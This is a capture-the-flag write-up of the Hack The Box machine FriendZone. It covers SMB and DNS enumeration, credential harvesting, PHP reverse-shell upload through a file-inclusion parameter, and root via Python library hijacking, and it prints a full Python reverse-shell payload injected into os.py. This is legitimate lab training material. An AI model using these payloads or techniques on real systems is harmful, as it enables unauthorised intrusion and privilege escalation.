

---
tags:
  - python_library_hijacking
group: Linux
---


- Machine : https://app.hackthebox.com/machines/FriendZone
- Reference : https://0xdf.gitlab.io/2019/07/13/htb-friendzone.html
- Solved : 2025.1.11. (Sat) (Takes 1day)

## Summary
---

1. **Initial Reconnaissance**
    - **Open Ports**: Discovered services including FTP (21), SSH (22), DNS (53), HTTP (80/443), and SMB (139/445).
    - **SMB Enumeration**:
        - Identified writable `/Development` share and readable `/general` share.
        - Extracted `admin` credentials (`admin:WORKWORKHhallelujah@#`) from `creds.txt` in `/general`.
        
2. **Web Exploitation**
    - **DNS Zone Transfer**:
        - Found subdomains: `administrator1.friendzone.red`, `hr.friendzone.red`, and `uploads.friendzone.red`.
    - **Administrator Login**:
        - Used the extracted credentials to log in at `administrator1.friendzone.red`.
        - Observed `timestamp` parameter loading files dynamically.
        
3. **Shell as `www-data`**
    - **SMB Exploitation**:
        - Uploaded a reverse shell PHP script to the writable `/Development` SMB share.
    - **Dynamic File Execution**:
        - Triggered the script via the `timestamp` parameter, gaining shell access as `www-data`.
        
4. **Privilege Escalation to `friend`**
    - **Configuration File**:
        - Extracted MySQL credentials (`friend:Agpyu12!0.213$`) from `/var/www/mysql_data.conf`.
    - **SSH Login**:
        - Logged in as `friend` using the extracted credentials.
        
5. **Privilege Escalation to `root`**
    - **Python Library Hijacking**:
        - Observed `reporter.py` executed by `root` at regular intervals.
        - Exploited globally writable `os.py` by injecting a reverse shell payload.
    - **Reverse Shell**:
        - Gained root access when `reporter.py` executed the malicious `os.py`.

### Key Techniques:

- **SMB Misconfigurations**: Exploited writable shares to deliver payloads.
- **Dynamic File Loading**: Leveraged vulnerable web parameters to execute uploaded scripts.
- **Python Library Injection**: Abused insecure file permissions to escalate privileges.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.123
Performing quick port scan on 10.10.10.123...
Found open ports: 21,22,53,80,139,443,445,47365
Performing detailed scan on 10.10.10.123...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 01:36 EST
Nmap scan report for 10.10.10.123
Host is up (0.13s latency).

PORT      STATE  SERVICE     VERSION
21/tcp    open   ftp         vsftpd 3.0.3
22/tcp    open   ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:68:24:bc:97:1f:1e:54:a5:80:45:e7:4c:d9:aa:a0 (RSA)
|   256 e5:44:01:46:ee:7a:bb:7c:e9:1a:cb:14:99:9e:2b:8e (ECDSA)
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)
53/tcp    open   domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp    open   http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp   open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp   open   ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
445/tcp   open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2025-01-11T08:36:26+02:00
| smb2-time: 
|   date: 2025-01-11T06:36:26
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.29 seconds
```

- Domain name : `friendzone.red` Let's add this to `/etc/hosts`
- ftp(21) : vsftpd 3.0.3 may have exploit?
- ssh(22) : May have to visit after getting some credentials.
- dns(53) : Try zone transfer with known domain name.
- smb(139,445) : Seems that it allows guest login.
- http(80), http(443)

### ftp(21)

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ nmap --script vuln -p 21 10.10.10.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 01:38 EST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.10.123
Host is up (0.14s latency).

PORT   STATE SERVICE
21/tcp open  ftp

Nmap done: 1 IP address (1 host up) scanned in 36.44 seconds


┌──(kali㉿kali)-[~/htb]
└─$ ftp 10.10.10.123
Connected to 10.10.10.123.
220 (vsFTPd 3.0.3)
Name (10.10.10.123:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

It doesn't allow anonymous login.

I also googled to find if there's any exploits, but only DoS exploit was found.

### dns(53)

```yaml
┌──(kali㉿kali)-[~/htb]
└─$ dig axfr friendzone.red @10.10.10.123

; <<>> DiG 9.20.0-Debian <<>> axfr friendzone.red @10.10.10.123
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 124 msec
;; SERVER: 10.10.10.123#53(10.10.10.123) (TCP)
;; WHEN: Sat Jan 11 01:49:13 EST 2025
;; XFR size: 8 records (messages 1, bytes 289)
```

There are several vHosts found : administrator1, hr, uploads
Let's add these all in `/etc/hosts`.

### smb(139,445)

```sql
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.123 -u 'guest' -p '' --shares
SMB         10.10.10.123    445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.10.10.123    445    FRIENDZONE       [+] \guest: 
SMB         10.10.10.123    445    FRIENDZONE       [+] Enumerated shares
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark                                                            
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------                                                            
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers                                                   
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files                          
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files                                     
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files                                     
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))  
```

Several shares are found.
`/Files`, `/general`, `/Development` are non-standard shares.
`/general`, and `/Development` are only readable with guest account.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nmap --script smb-enum-shares.nse -p 139,445 10.10.10.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-11 07:23 EST
Nmap scan report for friendzone.red (10.10.10.123)
Host is up (0.14s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.10.123\Development: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general: 
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 37.21 seconds
```

With `nmap` script, I can get more informations about the smb shares.
- Development : `/etc/Development`
- Files : `/etc/hole`
- IPC$ : `/tmp`
- general : `/etc/general`
- print$ : `/var/lib/samba/printers`

**smb : /general** :

```bash
┌──(kali㉿kali)-[~/htb/smb]
└─$ smbclient \\\\10.10.10.123\\general
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jan 16 15:10:51 2019
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  creds.txt                           N       57  Tue Oct  9 19:52:42 2018

3545824 blocks of size 1024. 1642856 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~/htb/smb]
└─$ cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

This share naively expose `admin`'s password! : `WORKWORKHhallelujah@#`

**smb : /Development** :

```bash
┌──(kali㉿kali)-[~/htb/smb]
└─$ smbclient \\\\10.10.10.123\\Development
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 11 02:01:02 2025
  ..                                  D        0  Tue Sep 13 10:56:24 2022

3545824 blocks of size 1024. 1642856 blocks available

smb: \> put test.txt
putting file test.txt as \test.txt (0.0 kb/s) (average 0.0 kb/s)
```

This share is empty. I uploaded `test.txt` file for test.

### http(80)

##### (http) friendzone.red


```xml
<title>Friend Zone Escape software</title>

<center><h2>Have you ever been friendzoned ?</h2></center>

<center></center>

<center><h2>if yes, try to get out of this zone ;)</h2></center>

<center><h2>Call us at : +999999999</h2></center>

<center><h2>Email us at: info@friendzoneportal.red</h2></center>
```

It returns a simple page including some information.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://friendzone.red
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.10.123
+ Target Hostname:    friendzone.red
+ Target Port:        80
+ Start Time:         2025-01-11 05:23:05 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 144, size: 577831e9005e6, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /wordpress/: Directory indexing found.
+ 7962 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2025-01-11 05:41:03 (GMT-5) (1078 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto scan reveals that there's a sub page `/wordpress` which implies that the web is running on wordpress.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://friendzone.red
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 293]
/wordpress            (Status: 301) [Size: 320] [--> http://friendzone.red/wordpress/]
/robots.txt           (Status: 200) [Size: 13]
```

Also, I found `/robots.txt` file is there. But there was nothing except the comment "Seriously?!"

##### (http) friendzone.red /wordpress


It only returns a directory listing page and it's empty.
I expect this might be linked with smb's `/Development` share, but it's not.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ wpscan --url http://friendzone.red/wordpress        
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.


Scan Aborted: The remote website is up, but does not seem to be running WordPress.
```

I scanned with `wpscan` but it says that the page doesn't seem to be wordpress.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://friendzone.red/wordpress -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://friendzone.red/wordpress
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
```

There was nothing in `gobuster` scan as well.

##### (https) friendzone.red


```xml
<title>FriendZone escape software</title>

<br>
<br>


<center><h2>Ready to escape from friend zone !</h2></center>


<center></center>

<!-- Just doing some development here -->
<!-- /js/js -->
<!-- Don't go deep ;) -->
```

The website also looks so simple.
But in its comment, it says that `/js/js` might have something. Let's visit the page.


Base64-looked string is found here.
I also observed that the string is refreshed every time I refresh the page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ echo 'WW1OSTd6cnVWdDE3MzY1OTU0MzJnWkhLYWRwd3Zp' | base64 -d
YmNI7zruVt1736595432gZHKadpwvi  
```

I tried to decode it, but still have no idea what this is.
`YmNI7zruVt1736595432gZHKadpwvi` is not decoded anymore.. Let's just keep it and move on.


```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u https://friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://friendzone.red
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 318] [--> https://friendzone.red/admin/]
/js                   (Status: 301) [Size: 315] [--> https://friendzone.red/js/]
```

No further page's found.

##### (https) friendzone.red /admin



It's also empty directory listing page.

##### (https) administrator1.friendzone.red


It returns a login page. I used the found credential, and it worked.


It says I need to visit `/dashboard.php` page.


It says I can do something else.


An image `a.jpg` and `timestamp` is loaded additionally due to the added parameter.

At this moment, let's run `gobuster` to find sub pages.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u https://administrator1.friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://administrator1.friendzone.red
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 349] [--> https://administrator1.friendzone.red/images/]
/login.php            (Status: 200) [Size: 7]
/dashboard.php        (Status: 200) [Size: 101]
/timestamp.php        (Status: 200) [Size: 36]
```

`/timestamp.php` is found additionally. I think this has to do with the timestamp parameter we used before.


As we expected, it returns the sentence included in previous page.


# Shell as `www-data`

Let's organize what we've found.
- `/development` share is writeable and located in `/etc/development` on the target system.
- administrator1.friendzone.red takes `timestamp` parameter to load php file with its name.
What if we can upload our payload php file on `/development` share and access it using `timestamp` parameter?

First, let's upload php reverse shell code on the share.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ smbclient \\\\10.10.10.123\\Development
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 11 07:23:19 2025
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  test.txt                            A       15  Sat Jan 11 06:18:53 2025

3545824 blocks of size 1024. 1521220 blocks available
smb: \> put rshell.php
putting file rshell.php as \rshell.php (13.6 kb/s) (average 13.6 kb/s)
smb: \> ls
  .                                   D        0  Sat Jan 11 07:34:58 2025
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  rshell.php                          A     5493  Sat Jan 11 07:34:59 2025
  test.txt                            A       15  Sat Jan 11 06:18:53 2025

3545824 blocks of size 1024. 1520924 blocks available
```

Then, let's load it using the following url:
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rshell

I opened a listener, and it soon captured and spawn a reverse shell!

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                                            
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.123] 42108
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 14:37:30 up  6:05,  0 users,  load average: 0.17, 0.13, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```


# Shell as `friend`

### Enumeration

At first, I investigated webroot directory (`/var/www/`)

```bash
www-data@FriendZone:/var/www$ ls

admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf


www-data@FriendZone:/var/www$ cat mysql_data.conf

for development process this is the mysql creds for user friend
db_user=friend
db_pass=Agpyu12!0.213$
db_name=FZ
```

I found `mysql_data.conf` file and it contains db credential : `friend` : `Agpyu12!0.213$`

```bash
www-data@FriendZone:/var/www$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
Debian-exim:x:107:114::/var/spool/exim4:/usr/sbin/nologin
ftp:x:108:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
bind:x:109:116::/var/cache/bind:/usr/sbin/nologin
```

Since there's a user named `friend`.

### Re-use the credential for `ssh` login

I tried to login as `friend` through `ssh` with the found credential.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh friend@10.10.10.123
The authenticity of host '10.10.10.123 (10.10.10.123)' can't be established.
ED25519 key fingerprint is SHA256:ERMyoo9aM0mxdTvIh0kooJS+m3GwJr6Q51AG9/gTYx4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.123' (ED25519) to the list of known hosts.
friend@10.10.10.123's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$ id
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
friend@FriendZone:~$ whoami
friend
```

I got `friend`'s shell!


# Shell as `root`

### Enumeration

Let's run `linpeas`.

```bash
friend@FriendZone:~$ ./linpeas_linux_amd64

╔══════════╣ Users with console
friend:x:1000:1000:friend,,,:/home/friend:/bin/bash                        
root:x:0:0:root:/root:/bin/bash
```

Couldn't find anything useful..
Let me run `pspy64` as well.

```bash
friend@FriendZone:~$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


2025/01/11 15:36:17 CMD: UID=0     PID=1      | /sbin/init splash 
2025/01/11 15:38:01 CMD: UID=0     PID=22287  | /usr/bin/python /opt/server_admin/reporter.py
2025/01/11 15:38:01 CMD: UID=0     PID=22286  | /bin/sh -c /opt/server_admin/reporter.py                                    
```

I observed that `/opt/server_admin/reporter.py` is run by `root` user regularly.
Let's investigate this file.

```bash
friend@FriendZone:~$ ls -al /opt/server_admin/reporter.py
-rwxr--r-- 1 root root 424 Jan 16  2019 /opt/server_admin/reporter.py
friend@FriendZone:~$ cat /opt/server_admin/reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

### Python library hijacking

If the library imported in the directory is writable by current user, this could be exploited with "Python Library Injection".

Here's the related article :
https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/

Let's check the library.

```bash
friend@FriendZone:/usr/bin$ ls -al python
lrwxrwxrwx 1 root root 9 Apr 16  2018 python -> python2.7

friend@FriendZone:/usr/bin$ find / -name os.py 2>/dev/null
/usr/lib/python3.6/os.py
/usr/lib/python2.7/os.py

friend@FriendZone:/usr/bin$ ls -al /usr/lib/python2.7/os.py
-rwxrwxrwx 1 root root 25910 Jan 15  2019 /usr/lib/python2.7/os.py
```

This.. is somewhat unrealistic, but `os.py` library is globally writeable.
Let's backup the `os.py` first.

```bash
friend@FriendZone:/usr/lib/python2.7$ cp os.py os.py_backup
```

Then, overwrite current one with our own payload.

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.15",9000));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/sh")
```

I modified the original payload slightly.
Since we are editing `os.py`, I kept the original code and change `os.dup2` to `dup2`.

```bash
friend@FriendZone:/usr/lib/python2.7$ vi os.py

<SNIP>

def _make_statvfs_result(tup, dict):
    return statvfs_result(tup, dict)

def _pickle_statvfs_result(sr):
    (type, args) = sr.__reduce__()
    return (_make_statvfs_result, args)

try:
    _copy_reg.pickle(statvfs_result, _pickle_statvfs_result,
                     _make_statvfs_result)
except NameError: # statvfs_result may not exist
    pass


import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.15",9000))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```


Then, let's wait on listener.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                 
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.123] 43508
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```

I got a `root` shell!